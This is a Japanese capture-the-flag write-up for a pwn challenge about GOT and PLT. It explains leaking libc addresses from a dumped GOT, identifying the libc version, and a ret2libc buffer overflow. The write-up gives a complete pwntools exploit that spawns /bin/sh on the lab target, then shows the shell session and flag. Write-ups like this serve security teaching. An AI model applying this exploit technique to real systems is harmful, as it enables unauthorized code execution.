 ## Here are GOT and PLT (435pt / 14 solves) [★★★☆]
> シェルを起動し、フラグを取得してください。
> 
> **ASLR は有効になっています。**
> 
> 
> 本問題のターゲットマシンを起動してください。起動が完了したら、VPN接続マシンまたはBrowser Kaliから `nc <ターゲットのIP> 8108` コマンドで接続してください。
> 
> 
> 問題ファイルをダウンロード: gotplt.zip
> 
> ZIPのハッシュ値(SHA256): `e750fa4419eb54468e4554bca39d07a67d7ab3c96f02afa9bb51031ff610de1a`

こちらもなんとソースコード無し。挙動を知るべくバイナリを実行してみる。
```
This is my .plt section (virtual address: 0x8049020, size: 0xe0)
08049020: ff 35 (f8 bf 04 08) ff 25 fc bf 04 08 00 00 00 00
08049030: ff 25 (00 c0 04 08) 68 00 00 00 00 e9 e0 ff ff ff
08049040: ff 25 (04 c0 04 08) 68 08 00 00 00 e9 d0 ff ff ff
08049050: ff 25 (08 c0 04 08) 68 10 00 00 00 e9 c0 ff ff ff
08049060: ff 25 (0c c0 04 08) 68 18 00 00 00 e9 b0 ff ff ff
08049070: ff 25 (10 c0 04 08) 68 20 00 00 00 e9 a0 ff ff ff
08049080: ff 25 (14 c0 04 08) 68 28 00 00 00 e9 90 ff ff ff
08049090: ff 25 (18 c0 04 08) 68 30 00 00 00 e9 80 ff ff ff
080490a0: ff 25 (1c c0 04 08) 68 38 00 00 00 e9 70 ff ff ff
080490b0: ff 25 (20 c0 04 08) 68 40 00 00 00 e9 60 ff ff ff
080490c0: ff 25 (24 c0 04 08) 68 48 00 00 00 e9 50 ff ff ff
080490d0: ff 25 (28 c0 04 08) 68 50 00 00 00 e9 40 ff ff ff
080490e0: ff 25 (2c c0 04 08) 68 58 00 00 00 e9 30 ff ff ff
080490f0: ff 25 (30 c0 04 08) 68 60 00 00 00 e9 20 ff ff ff

This is my .got.plt section (virtual address: 0x804bff4, size: 0x40)
0804bff4: (08 bf 04 08) (40 da fd f7) (80 8f fb f7) (d0 21 ef f7)
0804c004: (60 55 d8 f7) (20 b5 db f7) (66 90 04 08) (f0 c6 e6 f7)
0804c014: (86 90 04 08) (96 90 04 08) (30 c0 e6 f7) (80 de e7 f7)
0804c024: (c6 90 04 08) (10 86 dd f7) (f0 df e7 f7) (10 d2 e6 f7)

I'll even show some function address!
- munmap() addr is 80490e0
- open() addr is 80490a0
(Note: The above GOT dump is taken after these functions are called at least one time

Now, let's exploit!
Name?
```

`Now, let's exploit!`までがざっと表示された後、`Name?`で入力を求められるようになっている。恐らくBoFでのシェル起動が本問題の目的であると思われるが、`system()`を呼び出すためにはまずlibcのベースアドレスを知る必要があるのに加え、この問題ではlibcが配布されておらず、使われているlibcの特定もしなければならない。  
普通の問題なら`puts()`などでlibcのアドレスをリークさせる手段が良く用いられているが、今回はありがたいことにPLTとGOTの一部に加え、`munmap@plt`と`open@plt`を教えてくれているため、これを利用させてもらう。なお、PLT・GOTについての解説は[ここ](https://keichi.dev/post/plt-and-got/)とかが参考になった。
```
$ objdump -d -M intel ./vuln | grep 80490e0
080490e0 <munmap@plt>:
 80490e0:       ff 25 2c c0 04 08       jmp    DWORD PTR ds:0x804c02c
 80495cf:       e8 0c fb ff ff          call   80490e0 <munmap@plt>
 80496bd:       68 e0 90 04 08          push   0x80490e0
```

与えられる情報をそのまま利用しても良いが、ここでは分かりやすさのため`objdump`を使う。`munmap()`の実際の関数アドレスは`0x804c02c`にセットされることが分かるので、上で言うところの`f0 df e7 f7`が関数アドレスになる。（リトルエンディアンに注意）同様に`open()`の関数アドレスも分かるので、この2つのアドレスの下2, 3桁を[このサイト](https://libc.blukat.me)に使って、libcの種類を特定する。  
ただし、関数アドレス特定の作業は**必ず本番環境で行う**こと。ローカル上で行っても遠回しに`ldd`しているだけになってしまう。

↓こんな感じに使う

<img src="images/image01.png" width="80%"></img>

今回の攻撃では`libc6_2.39-0ubuntu9_i386.so`を使った。これによりlibcのベースアドレスも特定できるようになったので、いよいよ攻撃に移る。ソルバは以下の通り。
```python
from pwn import *

target = './vuln'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

libc = ELF('./libc6_2.39-0ubuntu9_i386.so')
proc = remote('target_ip', 8108)
#libc = ELF('/lib32/libc.so.6')
#proc = process(target)

addr_open = 0
addr_munmap = 0

proc.recvuntil('0804c014: ')
addr_open = proc.recvline()[29:40].decode().replace(' ', '')
addr_open = bytes.fromhex(addr_open)[::-1].hex()
#print(addr_open)

libc_base = int(addr_open, 16) - libc.symbols['open']
addr_system = libc_base + libc.symbols['system']
addr_binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

payload = b'A' * 16
payload += pack(addr_system)
payload += b'A' * 4
payload += pack(addr_binsh)

proc.sendlineafter('Name? ', payload)

proc.interactive()
```

実行するとフラグが得られた。
```
[*] Switching to interactive mode
Nice to meet you, AAAAAAAAAAAAAAAA0\xd4\xd5\xf7AAAA\xe8\x1d\xed\xf7
$ ls
flag.txt
vuln
$ cat flag.txt
flag{G0T_3NTRY_W1TH0UT_L1BC_ADDR}
```

### `flag{G0T_3NTRY_W1TH0UT_L1BC_ADDR}`